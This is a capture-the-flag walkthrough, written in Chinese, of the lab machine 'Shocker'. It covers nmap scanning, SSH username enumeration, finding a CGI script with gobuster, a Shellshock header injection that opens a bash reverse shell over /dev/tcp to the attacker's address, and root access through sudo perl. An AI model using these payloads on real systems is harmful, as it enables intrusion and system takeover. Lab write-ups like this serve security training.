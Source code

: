 靶机：10.10.10.56

kali： 10.10.16.3

```
└─# nmap -n -v -sV -sC 10.10.10.56
```

```bash
└─# nmap -p$ports -sV -sC -O $IP -oA nmap.txt
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 4.9 (95%), Linux 4.2 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



```bash
└─# strings bug.jpg 
CDEFGHIJSTUVWXYZcdefghijstuvwxyz
```



修改脚本报错[AttributeError: module 'time' has no attribute 'clock' in Python 3.8 - Stack Overflow](https://stackoverflow.com/questions/58569361/attributeerror-module-time-has-no-attribute-clock-in-python-3-8)

[AttributeError: 模块'time'没有属性'clock'的解决方法 - 掘金 (juejin.cn)](https://juejin.cn/post/7116506231044309022)

openssh 用户名枚举

```
└─# python 40136.py 10.10.10.56:2222 -e -U /usr/share/seclists/Usernames/top-usernames-shortlist.txt
```



```bash
└─# ssh shocker@10.10.10.56 -p 2222
```



```bash
└─# gobuster dir -u http://10.10.10.56 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt --add-slash
```

--add-slash 为结尾加上后缀 / ，如 http://10.10.10.56/cgi-bin/



```bash
└─# gobuster dir -u http://10.10.10.56/cgi-bin -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,sh
```

得到

```
http://10.10.10.56/cgi-bin/user.sh
```



```bash
┌──(root💀kali)-[~/shocker]
└─# curl http://10.10.10.56/cgi-bin/user.sh
Content-Type: text/plain

Just an uptime test script

 21:26:49 up  1:34,  0 users,  load average: 0.00, 0.00, 0.00


                                                                                                                                                                  
┌──(root💀kali)-[~/shocker]
└─# curl http://10.10.10.56/cgi-bin/user.sh
Content-Type: text/plain

Just an uptime test script

 21:26:56 up  1:34,  0 users,  load average: 0.00, 0.00, 0.00
```



Shellshock漏洞

[Exploiting CGI Scripts with Shellshock (antonyt.com)](https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock)

```bash
curl http://10.10.10.56/cgi-bin/user.sh -H  "User-agent: () { :;}; ping 10.10.16.3 -t3" 
```

<img src=".\图片\Snipaste_2023-09-01_09-36-10.png" alt="Snipaste_2023-09-01_09-36-10" style="zoom:67%;" />

<img src=".\图片\Snipaste_2023-09-01_09-36-28.png" alt="Snipaste_2023-09-01_09-36-28" style="zoom:80%;" />



```bash
curl http://10.10.10.56/cgi-bin/user.sh  -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.16.3/443 0>&1" 
```



```bash
└─# nc -lvnp 443                  
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.56] 51296
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ id
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```



```bash
shelly@Shocker:/home/shelly$ cat user.txt
cat user.txt
731559d97403d5daa92e734c38255ab0
```



此时如果为了得到更好的 shell ，可以上传 公钥到 shelly 家里的 .ssh 目录，在私钥登录



```bash
shelly@Shocker:/home/shelly$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/sh";'
sudo perl -e 'exec "/bin/sh";'
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
748c855566791f0ad34a0eddbf47172d
```



补充下

```bash
su shelly
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

lxd 也可以提权





问题所在，目录没扫出来，gobuster 好像抽风了

目录扫的是 http://10.10.10.56/cgi-bin  显示 404

应该是 http://10.10.10.56/cgi-bin/ 显示 403


